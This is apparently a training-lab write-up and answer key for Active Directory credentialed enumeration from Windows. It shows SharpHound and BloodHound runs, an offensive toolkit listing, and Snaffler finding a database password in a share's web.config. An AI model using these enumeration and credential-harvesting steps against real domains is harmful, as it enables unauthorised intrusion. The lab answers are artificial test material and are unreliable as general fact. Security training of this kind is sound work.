

# Section 15: Credentialed Enumeration - from Windows

Module: 13. Active Directory Enumeration & Attacks

---

## Questions & Answers

### 1. Using Bloodhound, determine how many Kerberoastable accounts exist within the INLANEFREIGHT domain. (Submit the number as the answer)

Context:
- RDP to the machine
```bash
┌─[eu-academy-2]─[10.10.15.48]─[htb-ac-2162140@htb-8qx37v20xt-htb-cloud-com]─[~]
└──╼ [★]$ KRB5_CONFIG=/dev/null xfreerdp /v:10.129.61.113 /u:htb-student /p:'Academy_student_AD!' /dynamic-resolution /cert:ignore /drive:linux,/tmp +clipboard
```
- Start SharpHound and move file to our Pwnbox:
```powershell
PS C:\Tools> .\SharpHound.exe -c All --zipfilename ILFREIGHT
>>
2026-08-18T18:55:50.3152217-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2026-08-18T18:55:50.3308425-07:00|INFORMATION|Initializing SharpHound at 6:55 PM on 8/18/2026
2026-08-18T18:55:51.0339635-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2026-08-18T18:55:51.4246023-07:00|INFORMATION|Beginning LDAP search for INLANEFREIGHT.LOCAL
2026-08-18T18:56:22.1277527-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 56 MB RAM
2026-08-18T18:56:41.1433461-07:00|INFORMATION|Producer has finished, closing LDAP channel
2026-08-18T18:56:41.2527441-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2026-08-18T18:56:52.1434269-07:00|INFORMATION|Status: 3793 objects finished (+3793 63.21667)/s -- Using 138 MB RAM
2026-08-18T18:57:06.5028000-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2026-08-18T18:57:06.5964791-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2026-08-18T18:57:06.7683523-07:00|INFORMATION|Status: 3809 objects finished (+16 50.78667)/s -- Using 112 MB RAM
2026-08-18T18:57:06.7683523-07:00|INFORMATION|Enumeration finished in 00:01:15.3552910
2026-08-18T18:57:07.2058447-07:00|INFORMATION|SharpHound Enumeration Completed at 6:57 PM on 8/18/2026! Happy Graphing!
PS C:\Tools> dir


    Directory: C:\Tools


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/10/2022   6:05 PM                ADRecon
d-----        4/18/2022  11:23 AM                BloodHound-GUI
d-----        2/22/2022   1:42 PM                CrackMapExecWin
d-----         4/7/2022   8:25 PM                Group3r
d-----        2/24/2022   3:18 PM                mimikatz
d-----        4/18/2022  10:41 AM                neo4j
d-----         3/8/2024   4:32 AM                PingCastle
d-----         4/6/2022  12:13 PM                PowerUpSQL
d-----        2/22/2022   1:43 PM                Responder-Windows
d-----        2/22/2022   1:53 PM                SysinternalsSuite
-a----        8/18/2026   6:57 PM         261057 20260818185637_ILFREIGHT.zip
-a----        8/15/2021   1:57 PM          18878 DomainPasswordSpray.ps1
-a----        8/15/2021   1:05 PM       11281853 GetUserSPNs_windows.exe
-a----        2/28/2022   7:40 PM         274432 Inveigh.exe
-a----        2/22/2022   1:19 PM         303194 Inveigh.ps1
-a----        12/6/2021   7:00 PM        7996928 kerbrute_Windows.exe
-a----        8/18/2026   6:57 PM         738897 NWFiYTNjN2QtNjM4ZC00ZTk0LTlmNTgtNzQzZjk2NzljNTQ3.bin
-a----        2/22/2022   1:16 PM         770279 PowerView.ps1
-a----        8/15/2021   1:04 PM        9894467 rpcdump_windows.exe
-a----        2/22/2022   1:30 PM         465408 Rubeus.exe
-a----         3/8/2022   2:45 PM         149205 SecurityAssessment.ps1
-a----         3/8/2022   8:37 PM         906752 SharpHound.exe
-a----        8/15/2021   2:49 PM         535040 SharpMapExec.exe
-a----        4/18/2022  12:55 PM         736256 SharpView.exe
-a----        8/15/2021   1:12 PM         744960 Snaffler.exe


PS C:\Tools> move C:\Tools\20260818185637_ILFREIGHT.zip \\tsclient\linux\
```
- Start BloodHound GUI on Pwnbox:
```bash
┌─[eu-academy-2]─[10.10.15.48]─[htb-ac-2162140@htb-8qx37v20xt-htb-cloud-com]─[~]
└──╼ [★]$ bloodhound
Directories in use:
home:         /var/lib/neo4j
config:       /etc/neo4j
logs:         /var/log/neo4j
plugins:      /var/lib/neo4j/plugins
import:       /var/lib/neo4j/import
data:         /var/lib/neo4j/data
certificates: /var/lib/neo4j/certificates
licenses:     /var/lib/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:69970). It is available at http://localhost:7474
```
- Upload data, and click `Analysis > List all Kerberoastable accounts`:


**Answer:** `13`

---

### 2. What PowerView function allows us to test if a user has administrative access to a local or remote host?

**Answer:** `Test-AdminAccess`

---

### 3. Run Snaffler and hunt for a readable web config file. What is the name of the user in the connection string within the file?

Context:
```powershell
PS C:\Tools> .\Snaffler.exe  -d INLANEFREIGHT.LOCAL -s -v data

<SNIP>
2026-08-18 19:17:32 -07:00 [File] {Red}<KeepConfigRegexRed|RW|connectionstring[[:space:]]*=[[:space:]]*[\'\"][^\'\"].....*|253B|3/31/2022 12:12:43 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\web.config) <?xml version="1.0" encoding="utf-8"?>
<configuration>
  <connectionStrings>
    <add name="myConnectionString" connectionString="server=ACADEMY-EA-DB01;database=Employees;uid=sa;password=ILFREIGHTDB01!;" />
  </connectionStrings>
</configuration>
2026-08-18 19:17:32 -07:00 [File] {Black}<KeepExtExactBlack|RW|^\.psafe3$|305B|3/31/2022 12:09:41 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\WriteStart.psafe3) .psafe3
<SNIP>
```

**Answer:** `sa`

---

### 4. What is the password for the database user?

Context:
```
<add name="myConnectionString" connectionString="server=ACADEMY-EA-DB01;database=Employees;uid=sa;password=ILFREIGHTDB01!;" />
```

**Answer:** `ILFREIGHTDB01!`

---


[Back to Module Index](./README.md)
